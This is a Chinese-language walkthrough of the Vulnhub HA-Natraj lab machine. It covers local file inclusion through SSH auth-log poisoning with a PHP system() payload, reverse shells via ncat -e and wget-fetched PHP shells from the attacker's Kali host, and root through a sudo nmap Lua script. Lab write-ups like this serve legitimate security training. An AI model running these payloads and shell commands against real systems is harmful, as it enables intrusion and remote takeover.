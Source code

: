 ```yaml
---

title: Vulnhub 489 HA-NATRAJ
date: 2020-06-04
---
```


考点：文件包含、权限继承、lua

靶机链接：https://www.vulnhub.com/entry/ha-natraj,489/
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| natraj     | 10.0.2.6  |

VirtualBox直接导入无法获得IP，解决方法见**[Vulnhub靶机无法获得IP](https://www.iihack.com/2022/08/08/vulnhub-vm-ip.html)**。

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.6
$ nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:9f:da:f4:2e:67:01:92:d5:da:7f:70:d0:06:b3:92 (RSA)
|   256 bc:ea:f1:3b:fa:7c:05:0c:92:95:92:e9:e7:d2:07:71 (ECDSA)
|_  256 f0:24:5b:7a:3b:d6:b7:94:c4:4b:fe:57:21:f8:00:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

看来漏洞大概率只能出在web应用上了。

### WEB测试

查看源代码，全静态，看看有没有二级目录

#### dirb

```bash
$ dirb http://10.0.2.6/
-----------------
URL_BASE: http://10.0.2.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://10.0.2.6/ ----
==> DIRECTORY: http://10.0.2.6/console/                                                                            
==> DIRECTORY: http://10.0.2.6/images/                                                                             
+ http://10.0.2.6/index.html (CODE:200|SIZE:14497)                                                                 
+ http://10.0.2.6/server-status (CODE:403|SIZE:273)  
```

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.6/
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927
Target: http://10.0.2.6/
[04:01:31] Starting:                                         
[04:01:51] 301 -  306B  - /console  ->  http://10.0.2.6/console/            
[04:01:51] 200 -  936B  - /console/
[04:01:56] 200 -    5KB - /images/                                          
[04:01:56] 301 -  305B  - /images  ->  http://10.0.2.6/images/              
[04:01:56] 200 -   14KB - /index.html                                       
[04:02:12] 403 -  273B  - /server-status/                                   
[04:02:13] 403 -  273B  - /server-status                                    

Task Completed 
```

发现存在console目录

![1]( https://www.vulnhub.cn/walkthrough/489/1.webp)

### 漏洞发现

访问`http://10.0.2.6/console/file.php`页面空白，盲猜这里有个file参数，可能存在本地文件包含LFI。

```bash
http://10.0.2.6/console/file.php?file=/etc/passwd
```

![2]( https://www.vulnhub.cn/walkthrough/489/2.webp)

## 获得权限

尝试包含`/var/log/apache2/access.log`等失败，发现包含`/var/log/auth.log`成功了

### 本地测试

测试写入`/var/log/auth.log`文件

```bash
$ ssh '<?php system($_GET[123]);?>'@127.0.0.1
```

![3]( https://www.vulnhub.cn/walkthrough/489/3.webp)

看效果写入成功

### 靶机测试

```bash
$ ssh '<?php system($_GET[123]);?>'@10.0.2.6 
```

![4]( https://www.vulnhub.cn/walkthrough/489/4.webp)

`http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=nc 10.0.2.15 444`创建了端口连接，但是`http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=nc 10.0.2.15 444 -e /bin/sh`失败了，说明这个靶机的`nc`没有`-e`参数

#### 思路一

可使用ncat代替nc

```http
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=ncat 10.0.2.15 444 -e /bin/bash
```

成功接收反弹

#### 思路二

写一句话文件

在auth.log发现目录`/var/www/html/console`

使用python快速本地起http服务`python -m 'http.server' 80`

尝试下载文件写入目录`/var/www/html/console/`写入失败

尝试下载文件写入目录`/var/www/html/`写入成功

```http
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=wget http://10.0.2.15/2.php -O /var/www/html/2.php
```

使用antsword连上

![5]( https://www.vulnhub.cn/walkthrough/489/5.webp)



#### 思路三

修改kali自带的php反弹shell脚本 `/usr/share/webshells/php/php-reverse-shell.php`

![6]( https://www.vulnhub.cn/walkthrough/489/6.webp)

下载反弹shell脚本到/tmp目录并执行

```
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=wget http://10.0.2.15/php-reverse-shell.php -O /tmp/1.php|php /tmp/1.php
```

成功接收反弹

## 提权

切换到交互式shell

```bash
$ whereis python
python: /usr/bin/python3.6m /usr/bin/python3.6 /usr/lib/python3.6 /usr/lib/python3.7 /usr/lib/python2.7 /etc/python3.6 /usr/local/lib/python3.6
$ python3.6 -c 'import pty; pty.spawn("/bin/bash")'
```

上传[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)并运行发现apache2配置文件可以更改

![7]( https://www.vulnhub.cn/walkthrough/489/7.webp)

```bash
$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

### natraj

修改/etc/apache2/apache2.conf将运行权限修改为natraj，重启靶机系统，反弹shell，再次运行linpeas.sh未发现有用信息

### mahakal

修改/etc/apache2/apache2.conf将运行权限修改为mahakal，重启靶机系统，反弹shell，再次运行linpeas.sh

发现可以免密运行`sudo nmap`

![9]( https://www.vulnhub.cn/walkthrough/489/9.webp)

想到nmap可以执行script，而script是lua语言编写，应该可以执行系统命令

参考 https://www.lua.org/pil/22.2.html 编写文件555

![10]( https://www.vulnhub.cn/walkthrough/489/10.webp)

通过`nmap`加载555

![11]( https://www.vulnhub.cn/walkthrough/489/11.webp)

成功接收root反弹

![12]( https://www.vulnhub.cn/walkthrough/489/12.webp)
